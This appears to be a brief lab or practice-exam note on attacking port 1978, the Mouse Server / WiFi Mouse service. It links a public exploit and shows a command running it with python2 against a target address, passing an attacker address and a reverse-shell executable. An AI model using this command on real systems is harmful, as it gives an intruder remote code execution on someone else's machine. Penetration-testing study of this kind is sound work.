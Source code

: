 # 1978 Unisql

Try [https://www.exploit-db.com/exploits/49601](https://www.exploit-db.com/exploits/49601)

```bash
└─$ python2 49601.py 192.168.221.145 192.168.45.250 reverse64.exe                                                                                                        1 ⨯
```

If fails, try other related Mouse Server / Mouse Wifi exploits
